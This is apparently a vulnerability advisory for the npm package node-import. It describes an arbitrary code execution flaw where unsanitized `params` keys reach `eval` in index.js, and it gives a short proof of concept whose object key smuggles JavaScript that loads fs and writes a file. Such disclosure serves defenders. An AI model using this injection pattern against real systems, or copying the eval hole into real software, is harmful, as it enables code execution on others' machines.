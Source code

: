 # Overview

`node-import` is a package that imports dependencies and run it directly or concatenate them and exports to file.

This package is vulnerable to Arbitrary Code Execution. The `params` argument of the module function can be controlled by users without any sanitization. This is then provided to the `eval` function located in line 79 in the index file `index.js`.

# Proof of Concept

```
var a = require("node-import");
var params = { 'fs=require("fs");
fs.writeFile("JHU");//':123 }
a.module('', params, true)
```
